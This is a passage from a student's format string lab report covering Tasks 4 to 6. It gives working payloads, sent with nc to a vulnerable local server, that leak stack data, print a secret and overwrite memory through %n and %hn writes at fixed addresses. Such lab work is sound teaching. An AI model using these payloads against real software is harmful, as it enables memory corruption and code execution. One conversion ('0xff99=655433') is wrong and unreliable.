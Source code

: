 ![image-20201008153453510](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201008153453510.png)

### Task4

#### Task4A

In the screenshot of [Task2Q1](#Question1), I use 24 `%.8x` to get first 4 bytes of my input.

#### Task4B

From [Task4A](#Task4A), using 23 `%.8x` and 1 `%s` to print the secret string.

![image-20201008194902935](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201008194902935.png)

### Task 5

#### Task5A

![image-20201008202147125](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201008202147125.png)

I use the command `echo $(printf "\x40\xa0\x04\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%n | nc -u localhost 9090` to change the value.

Target value `0x11223344` $\to$ `0x000000bc`.

#### Task5B

![image-20201008202936018](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201008202936018.png)

I must print `5*16*16` bytes before `%n`.

Here I use the command `echo $(printf "\x40\xa0\x04\x08")%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.1100x%n | nc -u localhost 9090`.

Here is how to calculate 1100: `5*16*16-8*22-4=1100`.

#### Task5C

![image-20201008205034144](C:\Users\Lori\Desktop\Course\ComputerScience\计安\lab3\pictures\image-20201008205034144.png)

I must print `0xff99` character before `%hn`(to write in the address `0x0804a042`), and add it to `0x10000` before another `%hn`(to write in the address `0x0804a040`)

`0xff99=655433`

`655433-4*3-22*8=65245`, which I put it into the 23rd position of `%.8x`, to overwrite the high address, `65536-65245=103`, so I put it between 2 `%hn` to cumulate the number to `65536`, and overwrite the low address. Altogether I change the value to `0xff990000`.



### Task6

In this task I need to overwrite the value in the RA of `myprintf()` by the beginning address of the malicious shellcode.
